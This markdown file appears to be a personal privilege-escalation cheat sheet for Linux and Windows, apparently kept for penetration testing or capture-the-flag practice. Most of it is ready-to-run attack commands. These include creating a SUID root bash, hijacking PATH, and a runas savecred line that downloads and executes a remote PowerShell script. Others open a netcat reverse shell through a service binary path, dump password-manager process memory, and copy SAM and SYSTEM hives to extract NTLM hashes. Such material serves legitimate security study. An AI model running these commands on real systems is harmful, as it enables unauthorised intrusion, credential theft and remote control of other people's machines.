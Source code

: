 
The first rule of privesc...
# ALWAYS *THOROUGHLY* LOOK AROUND FIRST!


# Linux

## linpeas

Always run this when possible.
`/usr/share/peass/linpeas/linpeas.sh`

## Enumeration

`id` List user ID and groups.
Manually enumerate user home directories for interesting files.
`history` or `less .bash_history` etc. Check shell history.
`ls -al /` Look for signs that user is in a docker container.
`findmnt` Find mounts connected to the system.
`mount` Check for docker container or unsafe mounts.
`export -p` and `env` View/modify environment variables.
`echo $PATH` Check the path.
Relative path program exploits.
`sudo -l` List commands user can run as root.
`find / -perm -4000 2>/dev/null` Find SUID binaries.
Check `/etc/apache2` and `/etc/nginx` for `sites-available` files to enumerate.
Check `/var/www` and `/opt` for interesting files.
`git log -p > all-git-commits.txt` Inspect git commits.
Find web server, git, and other config files that may contain credentials.
Check databases for credentials.
Find SSH key files.
`crontab -l` List user crontab.
`cat /etc/crontab` List system crontab.
`ps auxww | grep root` Investigate interesting root processes.
`pspy` Spy on processes to find cron jobs.
Modify vulnerable shell scripts, config files, environment variables, etc.
`ls -al /var/mail` Check user mail.
`docker` Exploit docker containers.
`kubeletctl` Exploit Kubernetes containers.
Run LinPEAS.
`find / -type f -user username 2>/dev/null` Find interesting files owned by username.
`lsattr` Check for vulnerable file attributes.
`getcap -r / 2>/dev/null` Find tools on the system that can do network stuff.
Get OS kernel and release info with `uname -a`, `lsb_release -a`, or `cat /etc/*release`.
`ss -tlpn` Show all listening ports and processes.
`netstat -ant` Show all TCP services.
`find -perm -o=w 2>/dev/null` Find world-writable files.
## Exploitation

Possible Simple Vector via Sudo
`sudo su`

Create SUID Bash (E.g., Leverage hacked cron job or container root access to host filesystem)
```
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod 4755 /tmp/bash
```

Execute SUID Bash
`bash -p`

Path Variable Hijacking (e.g., for cron job binary without absolute path)
`export PATH=/tmp:$PATH`

Less (System Pager / Text Scroller) Exploitation :)
`!/path/to/program`

### rbash Breakout

Literally just spawn a different shell. Use GTFOBins if needed.

# Windows

## winPEAS

Always run this when possible.
`/usr/share/peass/winpeas/winPEAS.bat`

## Enumeration

Display Stored Usernames and Credentials
`cmdkey /list`

Find RunAs Shortcuts
```
gci ​"C:\"​ *.lnk -recurse -force | ft fullname | ​out-file shortcuts.txt
foreach​ (​$file​ ​in​ gc .\shortcuts.txt) { ​write-output​ ​$file​; gc ​$file​ | sls​ runas }

NOTE: The foreach loop did not work in my remote shell when testing this, but I've noted it to come back to.
```

Elevate Privs Using RunAs SaveCred with Revshell
`runas /user:domain\adminusername /savecred ​"powershell -c iex (new-object net.webclient).downloadstring('http://ipaddress/file')"`

Net User Groups
`net user username`

Whoami Groups
`whoami /groups`

Read PowerShell History
`type c:\users\username\appdata\roaming\microsoft\windows\powershell\psreadline\consolehost_history.txt`

Enumerate Installed Software
```
dir "C:\Program Files"
dir "C:\Program Files (x86)"

Get version info from changelog files.
```

Enumerate Services (even when sc.exe is denied permission)
`reg query "HKLM\System\CurrentControlSet\Services"`

Get Service Details (sc.exe)
`sc.exe qc servicename`

Get Service Details (registry)
`reg query "HKLM\System\CurrentControlSet\Services\servicename"`

List Processes
`get-process`

List processes and associated services (cmd)
`tasklist /svc`

Dump Process Memory. E.g., Firefox, KeePassXC
`procdump.exe -ma pid process.dmp`

Extract Strings from Binary Files
`strings -el process.dmp`

Check for System MSI Install Privs
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Check AppLocker Policy
`get-applockerpolicy -effective | select -expandproperty rulecollections`

Install MSI (Revshell, etc.) File
`msiexec /quiet /i reverse.msi`
## Exploitation

Service Binary Path Revshell
```
Users who are in the "Server Operators" group can modify, start, and stop system services.

Example of revshell via service binary path (e.g., vss service):

sc.exe config servicename binPath="c:\users\username\nc.exe -e cmd.exe ipaddress port"

nc -lvnp port

sc.exe stop servicename
sc.exe start servicename

WARNING: The above shell is unstable and will probably die after seconds.
Use meterpreter instead.
```

Grant Domain User Privs via PowerView
```
. .\PowerView.ps1
add-objectacl -principalidentity username -credential $cred -rights privname
```

Get User NTLM Hashes via Registry Hives
```
Copy the following files to the attack box:
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM

Dump the hashes:
samdump2 SYSTEM SAM

(Crack with john, etc.)
```
